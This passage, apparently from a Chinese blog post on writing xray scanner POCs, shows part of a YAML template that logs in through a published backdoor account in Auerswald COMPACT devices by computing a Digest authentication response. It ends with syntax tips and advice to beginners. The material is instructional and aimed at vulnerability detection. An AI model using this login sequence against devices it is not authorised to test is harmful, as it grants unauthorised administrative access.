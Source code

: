 ```
        request:
            method: GET
            path: "/tree"
        expression: response.status == 401
        output: 
            search2: '"nonce=\"(?P<nonce>.*)\", opaque".submatch(response.headers["WWW-Authenticate"])'
            nonce: search2["nonce"]
            search3: '"opaque=\"(?P<opaque>.*)\",algorithm".submatch(response.headers["WWW-Authenticate"])'
            opaque: search3["opaque"]
            cnonce: substr(md5(dcnonce),0,16)
            username: '"Schandelah"'
            OHA1: username + ":Auerswald:" + password
            HA1: md5(OHA1)
            resp: HA1 + ":" + nonce + ":" + "00000001" + ":" + cnonce + ":auth:a94ba59ccc1aaf76cedba69ce4d102d2"
            respmd5: md5(resp)
    r3:
        request:
            method: GET
            path: "/tree"
            follow_redirects: true
            headers:
                Authorization: Digest username="Schandelah", realm="Auerswald", nonce="{{nonce}}", uri="/tree", algorithm=MD5, response="{{respmd5}}", opaque="{{opaque}}", algorithm="MD5", qop=auth, nc=00000001, cnonce="{{cnonce}}"
        expression: response.status == 200 && response.body.bcontains(b"Servicetools")
expression: r1() && r2() && r3()
detail:
    author: Jarcis-cy(https://github.com/jarcis-cy)
    links:
        - https://www.redteam-pentesting.de/en/advisories/rt-sa-2021-007/-auerswald-compact-multiple-backdoors
    summary: 'username:Schandelah;password:{{password}}'

```
```  
  
  
通过这个POC，我们可以注意到四点：  
  
1. output中定义变量并给变量赋值的时候，如果是纯字符串，需要先单引号再双引号引起来，否则会报错2. 在output中进行变量拼接的时候，不能以字符串开头，如果需要以字符串开头，需先将该字符串通过第一点的方式定义出来3. md5函数中可以直接引用之前的变量，不能在函数中进行字符串拼接  
  
4.search这个变量名称不要重复  
  
  
  
**总结**  
  
  
对于我来说，从接触xray到编写第一个POC再到现在，让我收获最多的并不是提交poc后换取的高级版，而是在编写POC时的思考，思考漏洞的触发条件，利用方式；在复现漏洞时的操作；在研究其他人编写的POC的精妙之处。这些才是我最大的收获，同时对我也是一个很大的提升。  
  
  
所以我常劝身边刚开始学习安全的人去尝试编写一下xray的POC，因为这是一个非常好的入门的机会，一个从小白到懂一点知识的人的机会。往常POC的编写还需要一定的代码知识，需要学习python等语言，学会发包等操作，有一定的门槛。但xray的POC的编写不需要，只需要认真的阅读官方的文档，认真的学习他人写的POC，在这个过程中不断的思考与实践，就算最后所写的POC不被通过，但我相信这样操作下来就已经有所收获。  
